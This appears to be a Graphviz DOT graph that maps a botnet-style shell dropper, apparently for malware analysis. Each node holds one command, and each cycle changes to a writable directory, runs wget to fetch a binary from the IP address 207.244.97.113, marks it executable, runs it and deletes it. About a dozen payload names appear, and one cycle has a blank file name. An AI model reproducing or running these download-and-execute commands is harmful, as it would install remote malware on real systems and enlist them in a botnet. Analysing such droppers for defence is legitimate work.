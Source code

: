 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://207.244.97.113/napd "];
10 -> 12 [label=";,"];
12 [label="chmod +x napd "];
12 -> 14 [label=";,"];
14 [label="./napd "];
14 -> 16 [label=";,"];
16 [label="rm -rf napd "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://207.244.97.113/sGhd "];
28 -> 30 [label=";,"];
30 [label="chmod +x sGhd "];
30 -> 32 [label=";,"];
32 [label="./sGhd "];
32 -> 34 [label=";,"];
34 [label="rm -rf sGhd "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://207.244.97.113/opeAnssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x opeAnssh "];
48 -> 50 [label=";,"];
50 [label="./opeAnssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf opeAnssh "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://207.244.97.113/baxsh "];
64 -> 66 [label=";,"];
66 [label="chmod +x baxsh "];
66 -> 68 [label=";,"];
68 [label="./baxsh "];
68 -> 70 [label=";,"];
70 [label="rm -rf baxsh "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://207.244.97.113/tfxatp "];
82 -> 84 [label=";,"];
84 [label="chmod +x tfxatp "];
84 -> 86 [label=";,"];
86 [label="./tfxatp "];
86 -> 88 [label=";,"];
88 [label="rm -rf tfxatp "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://207.244.97.113/wgdfet "];
100 -> 102 [label=";,"];
102 [label="chmod +x wgdfet "];
102 -> 104 [label=";,"];
104 [label="./wgdfet "];
104 -> 106 [label=";,"];
106 [label="rm -rf wgdfet "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://207.244.97.113/crdfon "];
118 -> 120 [label=";,"];
120 [label="chmod +x crdfon "];
120 -> 122 [label=";,"];
122 [label="./crdfon "];
122 -> 124 [label=";,"];
124 [label="rm -rf crdfon "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://207.244.97.113/ftqqp "];
136 -> 138 [label=";,"];
138 [label="chmod +x ftqqp "];
138 -> 140 [label=";,"];
140 [label="./ftqqp "];
140 -> 142 [label=";,"];
142 [label="rm -rf ftqqp "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://207.244.97.113/pfvcxtp "];
154 -> 156 [label=";,"];
156 [label="chmod +x pfvcxtp "];
156 -> 158 [label=";,"];
158 [label="./pfvcxtp "];
158 -> 160 [label=";,"];
160 [label="rm -rf pfvcxtp "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://207.244.97.113/scch "];
172 -> 174 [label=";,"];
174 [label="chmod +x scch "];
174 -> 176 [label=";,"];
176 [label="./scch "];
176 -> 178 [label=";,"];
178 [label="rm -rf scch "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://207.244.97.113/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://207.244.97.113/apache420 "];
208 -> 210 [label=";,"];
210 [label="chmod +x apache420 "];
210 -> 212 [label=";,"];
212 [label="./apache420 "];
212 -> 214 [label=";,"];
214 [label="rm -rf apache420 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://207.244.97.113/telnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x telnetd "];
228 -> 230 [label=";,"];
230 [label="./telnetd "];
230 -> 231 [label=";,"];
}
